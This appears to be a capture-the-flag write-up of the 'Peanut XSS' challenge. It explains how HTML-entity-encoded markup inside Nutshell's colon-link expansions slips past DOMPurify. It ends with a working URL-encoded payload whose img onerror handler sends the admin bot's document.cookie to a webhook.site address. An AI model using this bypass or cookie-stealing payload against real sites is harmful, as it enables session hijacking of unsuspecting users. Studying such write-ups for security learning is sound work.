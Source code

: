 # Peanut XSS
## Description
>Nutshell is pretty cool. Want to test it out?
>
>admin bot: nc peanut-xss-bot.chal.uiuc.tf 1337
>
>Author: arxenix
>
> 52 solves
# Attachments 
>
>We were given 2 links one to https://ncase.me/nutshell/ which talks about what is nutshell and the other to the challenge website https://peanut-xss-web.chal.uiuc.tf/ 
>
## The Site
Upon first looking at the site a few things stand out the website seems to have a html parser written into the site where you type your html and it will generate the content.
Two things that instantly pop out is the warning that the site uses dompurify so that we "surely won't be able to steal the admin-bots document.cookie
As well as the obvious indication that the site uses nutshell by the : being used in the example html.

After examing the html we see a interesting script function at the bottom

```js

      const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "htmlmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```

We can see from this js that DOMPurify is used on our passed in nutshell parameter before nutshell parses it
Next I attempted to send some test xss payouts to see how they looked after they were santizied 
passing in a simple ```<script>alert(1)</script>``` payload resulted in this being passed in as the parameter
```
?nutshell=%0A<script>alert(1)<%2Fscript>
```
I then tried various other xss payloads looking for one that would bypass dompurify before realizing I was ignoring the whole purpose of the challenge and not even using nutshell at all whoops
After looking into what nut shell does I saw this 
```
Nutshell is a tool to make "expandable, embeddable explanations", like this! They can even be recursive. (← click me 👆) This lets your readers learn what they need, just-in-time, always-in-context.
```

So then I modified my payload to ```<p>just make a link with :colon at the front… <a href="#ToWriteASection">:<script>alert(1)</script></a>!</p>``` which is just there example payload with my xss payload this resulted in nutshell
creating one of its expandable but still nothing at this point I was confused and started looking into nut shells code and found out it also uses dompurify which suprised me at first before realizing this must mean the issue is with nut shells 
implentation of dom purify so I started looking at both the code and similar examples and trying various xss payloads before stumbling on this one ```:&lt;img src=x onerror=alert(1)&gt;&lt;/img&gt;``` where the <> brackets are instead replaced with html entities and sure enough combined with using nutshells expandable embedded explainations which are inputted by using the :
![alertsuccess](images/alertsuccess.png)

The next part was simple enough we just had to take our new found knowledge and craft a simple payload to send to the admin bot. Simply replacing the brackets in a normal xxs cookie payload was good enough.
To create that simple xss cookie I created a webhook on webhook.site so that I can see when it accesses that url with the document.cookie
```
https://peanut-xss-web.chal.uiuc.tf/?nutshell=%3Chtml%3E%0A%3Cbody%3E%0A%20%20%20%20%3Ch2%3ETo%20write%20a%20section%2C%3C%2Fh2%3E%0A%20%20%20%20%3Cp%3Ejust%20use%20headings%20%26%20paragraphs%20like%20this%21%20Then%E2%80%A6%3C%2Fp%3E%0A%20%20%20%20%3Ch2%3ETo%20embed%20a%20section%2C%3C%2Fh2%3E%0A%20%20%20%20%3Ca%20href%3D%22%23ToWriteASection%22%3E%3A%26lt%3Bimg%20src%3Dx%20onerror%3Dthis.src%3D%27https%3A%2F%2Fwebhook.site%2F9debb987-216e-4a67-bde0-aa8b7270755c%2F%3F%27%2Bdocument.cookie%3B%26gt%3B%26lt%3B%2Fimg%26gt%3B%3C%2Fa%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%20%20%20%20
```

